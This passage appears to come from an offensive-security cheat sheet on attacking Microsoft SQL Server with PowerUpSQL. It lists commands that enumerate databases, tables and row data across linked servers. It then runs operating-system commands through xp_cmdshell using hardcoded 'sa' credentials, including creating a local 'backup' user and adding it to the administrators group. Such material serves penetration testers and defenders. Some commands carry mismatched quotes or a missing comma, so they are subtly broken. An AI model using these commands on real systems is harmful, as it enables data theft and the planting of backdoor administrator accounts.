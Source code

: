 > tempdb, model ,and msdb are default databases usually not worth looking into. Master is also default but may have something and anything else is custom and definitely worth digging into. The result is DatabaseName which feeds into following query.

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```

### Determine All the Tables Names from a Selected Linked Database

> The result is TableName which feeds into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```

### Gather the Top 5 Columns from a Selected Linked Table

> The results are ColumnName and ColumnValue which feed into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```

### Gather Entries from a Selected Linked Column


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```


### Command Execution via xp_cmdshell

> xp_cmdshell disabled by default since SQL Server 2005

```ps1
Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command whoami
Creates and adds local user backup to the local administrators group:
Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net user backup Password1234 /add' -Verbose
Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net localgroup administrators backup /add" -Verbose
```

## Extended Stored Procedure
